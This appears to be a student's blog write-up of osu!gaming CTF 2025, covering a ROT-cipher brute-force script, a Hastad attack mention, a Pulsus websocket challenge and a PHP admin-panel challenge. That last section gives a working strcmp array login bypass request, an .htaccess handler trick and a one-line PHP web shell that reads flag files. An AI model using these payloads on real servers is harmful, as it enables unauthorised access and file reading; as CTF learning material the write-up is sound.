


So recently I participate in osu!gaming CTF 2025 with my IT Security Club on university, me as president have to force everyone get on this special CTF (yes, we train whole year just for this CTF). But one of our strongest member `Khavid` move on with `#MogamiShizuka` team!

So, this CTF is big and crazy stuff happened, even I'm a 6 years osu! player still didn't know some of trivial stuff of osu!

# Crypto

## Rot727

It just another custom Rot13 encryption system, so I pull out my old code from CTF 2024 (I forgot its name)
```python
def rot_cipher_concise(txt, shift):
    """Encrypts/decrypts text using a ROT cipher with any shift."""
    res = []
    effective_shift = shift % 26
    for char in txt:
        if 'A' <= char <= 'Z':
            new_ord = (ord(char) - ord('A') + effective_shift) % 26 + ord('A')
            res.append(chr(new_ord))
        elif 'a' <= char <= 'z':
            new_ord = (ord(char) - ord('a') + effective_shift) % 26 + ord('a')
            res.append(chr(new_ord))
        else:
            res.append(char)

    return "".join(res)

i = 1
while True:
    tmp = rot_cipher_concise("aeg{at_imuf_nussqd_zgynqd_paqezf_yqmz_yadq_eqogdq}", shift=i)
    print(tmp)
    if "osu" in tmp:
        break
    i = i + 1
```

Got `osu{oh_wait_bigger_number_doesnt_mean_more_secure}` at 13

## linear-feedback

This actually just ChatGPT stuff



## pls-nominate

Very basic implementation of Hastad's Broadcast Attack

`osu{pr3tty_pl3453_w1th_4_ch3rry_0n_t0p!?}`

# Web

## admin-panel

First look at this challenges, I thought it is Path Traversal stuff because the `/flag.txt` is outside from `/var/www/html`

But when I tried on login, I noticed that the password for user `peppy` is random so no way you can guess it!
```php
<?php
    session_start();
    $admin_password = bin2hex(random_bytes(16));

    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        $username = $_POST["username"];
        $password = $_POST["password"];

        if ($username == "peppy" && strcmp($admin_password, $password) == 0) {
            $_SESSION["logged_in"] = true;
            header("Location: admin.php");
            exit();
        }
    }

    header("Location: index.php");
?>
```

But WAIT,

There's a vulnerability at `strcmp($admin_password, $password) == 0`. Based on [the manual page PHP's strcmp](https://www.php.net/manual/en/function.strcmp.php). This is case sensitive and binary safe string compare function, but the way it acted is extremely unpredictable (based on comment at bottom of page)!

Which I can set the password to array based on [this blog talking about vulnerability of strcmp](https://rst.hashnode.dev/bypassing-php-strcmp)

```
POST /login.php HTTP/2
Host: admin-panel-72179d733c64.instancer.sekai.team
Content-Length: 27
Cache-Control: max-age=0
Origin: https://admin-panel-72179d733c64.instancer.sekai.team
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://admin-panel-72179d733c64.instancer.sekai.team/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=peppy&password[]=0
```

**Break the first wall!**

Move on to next file `admin.php`, we see that we can send a file to server but cannot have `php` in filename or file content. This is extremely bad practice because user can send file `.phtml` to the server!

```php
<?php
  session_start();
  if (!isset($_SESSION["logged_in"])) {
    header("Location: index.php");
    exit();
  }

  if ($_SERVER["REQUEST_METHOD"] == "POST") {
    if (isset($_FILES["file"])) {
      $file = $_FILES["file"];
      $filename = $file["name"];
      $contents = file_get_contents($file["tmp_name"]);

      if (stripos($filename, ".php") !== false) {
        echo "<h1>file is not allowed</h1>";
      }
      else if (stripos($contents, "<?php") !== false) {
        echo "<h1>file has unsafe contents</h1>";
      }
      else {
        move_uploaded_file($file["tmp_name"], "./uploads/" . $filename);
        header("Location: /uploads/" . $filename);
      }
      die();
    }
  }
?>
```

Here we create 2 files, `.htaccess` and `phtml`, `.htaccess` will force `.phtml` to be parsed as PHP file. While the file `.phtml` we use the shorthand php notation `<?=` to bypass `<?php`!

```bash
# file .htaccess
echo 'AddHandler application/x-httpd-php .phtml' > .htaccess

# file shell2.phtml
echo '<?=system("cat /flag || cat /flag.txt || cat /root/flag || cat /home/ctf/flag");?>' > shell2.phtml
```

Upload 2 files to server then access `/uploads/shell2.phtml` to get the flag!

`osu{php_is_too_3asy}`

# Rhythm / Pulsus

I think this is a web challenge, not rhythm stuff bruh?

I was simply turn on my burp suite, access to [Pulsus](https://pulsus.cc/play/) and find the Quintecc account because the challenge description told so?

While I found `Quintec#452` account, it take a while to figure it out it was in Websocket.



`osu{pl4y_pul5u5_e6234bd516f}`
